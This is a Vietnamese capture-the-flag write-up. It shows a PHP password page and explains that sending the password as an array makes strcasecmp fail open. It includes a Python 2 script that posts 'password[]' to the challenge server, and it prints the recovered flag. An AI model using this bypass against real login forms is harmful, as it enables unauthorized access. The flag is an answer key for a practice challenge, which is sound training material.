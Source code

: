 ## Bài 2:
* Đọc mã nguồn của trang 
``` html
<!DOCTYPE html>
<html>
  <head>
    <title>Simple Auth</title>
  </head>
  <body>
    <div>
<?php
$password = 'FLAG_????????????????';
if (isset($_POST['password']))
    if (strcasecmp($_POST['password'], $password) == 0)
        echo "Congratulations! The flag is $password";
    else
        echo "incorrect...";
?>
    </div>
    <form method="POST">
      <input type="password" name="password">
      <input type="submit">
    </form>
  </body>
</html>
```
* Ta thấy 
```php
if (strcasecmp($_POST['password'], $password) == 0)
        echo "Congratulations! The flag is $password";
    else
        echo "incorrect...";
```

* Với hàm `strcasecmp` ta chỉ cần truyền vào 1 mảng password là có thể vượt qua được.
* Viết 1 chương trình sử dụng `Python` để gửi 1 mảng password vào form
```python
import urllib
import urllib2

url = 'http://ctfq.sweetduet.info:10080/~q32/auth.php'
data = {"password[]": "pass ne",}
a = urllib.urlencode(data).encode("utf-8")
print a 
req = urllib2.Request(url, a)
res = urllib2.urlopen(req)
html = res.read()
print html
```
* Ta thu được flag: `FLAG_VQcTWEK7zZYzvLhX`

## Bài 1:

